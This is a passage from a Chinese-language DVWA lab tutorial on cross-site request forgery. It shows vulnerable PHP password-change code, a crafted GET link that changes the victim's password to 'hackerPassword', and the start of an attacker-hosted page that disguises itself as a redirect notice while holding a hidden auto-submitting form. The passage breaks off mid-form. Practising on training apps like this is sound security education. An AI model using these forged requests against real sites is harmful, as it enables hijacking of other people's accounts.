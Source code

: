 ```php
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

只需要让他人点击下面的链接，密码就修改成功了。

```javascript
http://9710fc76520cf9b2ff5ea67e0af9e0df.n1.vsgo.cloud:7147/web/vulnerabilities/csrf/?password_new=hackerPassword&password_conf=hackerPassword&Change=Change#
```

不过这个链接太明显了，我们也可以构造一个页面放在自己的服务器上。

```html
<!-- index.html -->
<!DOCTYPE html>
<html lang="zh">

    <head>
        <meta charset="UTF-8"> <!-- for HTML5 -->
        <style>
            div {
                text-align: center;
            }

        </style>
    </head>

    <body>
        <div>
            <p>
                页面跳转中，请稍候。。。
            </p>

            <style>
                form {
                    display: none;
                }

            </style>
            <form action="http://9710fc76520cf9b2ff5ea67e0af9e0df.n1.vsgo.cloud:7147/web/vulnerabilities/csrf/"
                method="GET">
                New password:<br />
                <input type="password" AUTOCOMPLETE="off" name="password_new" value="hackerPassword"><br />
                Confirm new password:<br />
```